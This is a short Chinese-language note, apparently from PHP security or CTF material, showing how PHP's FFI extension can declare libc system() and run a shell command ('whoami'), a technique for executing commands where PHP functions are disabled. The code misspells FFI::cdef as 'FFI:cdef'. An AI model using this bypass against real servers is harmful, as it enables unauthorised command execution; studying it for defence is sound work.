 ### 1.FFI

PHP>=7.4

ffi.enable=true或者reload

extension=ffi

1. FFI:cdef

```php
<?php
    $ffi = FFI:cdef("int system(const char *command);");
	$ffi->system("whoami");
?>
```

